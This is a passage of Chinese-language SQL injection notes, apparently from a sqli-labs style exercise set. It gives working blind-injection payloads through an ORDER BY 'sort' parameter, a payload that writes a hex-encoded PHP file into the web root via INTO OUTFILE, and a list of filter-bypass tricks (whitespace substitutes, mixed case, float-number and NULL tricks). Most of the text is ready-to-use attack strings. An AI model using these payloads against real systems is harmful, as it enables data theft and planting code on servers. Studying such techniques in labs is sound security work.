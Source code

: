 布尔盲注和时间盲注使用`rand()`函数即可

```sql
?sort=rand(left(database(),1)>'r')
?sort=rand(if(ascii(substr(database(),1,1))>114,1,sleep(1)))
```

写入文件，使用`lines terminated by`，`0x3c3f70687020706870696e666f28293b3f3e`是`<php phpinfo();>`的十六进制编码。

```sql
?sort=1 into outfile "/var/www/html/less46.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e
```



## 2. SQL注入绕过


### 2.1 空格字符绕过

`%a0`：空格

`%09`：TAB键（水平）

`%0a`：新建一行

`%0c`：新的一页

`%0d`：return功能

`%0b`：TAB键（垂直）

`%00`：空字符

`/**/`：替换空格

`/*!*/`：内联注释



### 2.2 大小写绕过

```sql
union select -> UniOn SelEcT
```



### 2.3 浮点数绕过

```sql
select * from users where id=8E0union select 1,2,3,4;
select * from users where id=8.0union select 1,2,3,4;
```



### 2.4 NULL绕过

`\N`代表NULL
